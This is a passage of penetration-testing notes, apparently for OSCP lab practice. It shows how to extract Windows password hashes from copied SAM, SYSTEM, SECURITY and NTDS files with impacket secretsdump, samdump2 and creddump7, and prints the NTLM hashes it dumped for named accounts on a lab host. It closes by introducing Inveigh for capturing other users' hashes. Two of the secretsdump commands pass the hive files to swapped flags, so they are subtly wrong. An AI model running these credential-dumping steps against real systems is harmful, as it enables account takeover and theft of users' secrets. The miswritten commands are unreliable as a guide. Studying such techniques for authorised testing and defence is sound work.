 Once obtained it is brought to kali somehow (for example here via evil-winrm):

```bash
# alternativa 1
secretsdump.py -sam SAM -security SYSTEM -system SECURITY LOCAL

# alternativa 2
impacket-secretsdump -sam SAM -security SYSTEM -system SECURITY LOCAL

# alternativa 3
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

Output example:

```
samdump2 SYSTEM SAM                                                                                                                     
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1004:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```
creddump7                       
creddump7 - Python tool to extract credentials and secrets from Windows registry hives
/usr/share/creddump7
├── cachedump.py
├── framework
├── lsadump.py
├── pwdump.py
└── __pycache_

./pwdump.py /home/kali/Documents/OSCP/OSCPA/10.10.124.142/loot/SYSTEM /home/kali/Documents/OSCP/OSCPA/10.10.124.142/loot/SAM    
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
```

## [Inveigh](https://github.com/Kevin-Robertson/Inveigh)

When you are a local administrator on a host you can run this to hash other users' passwords:
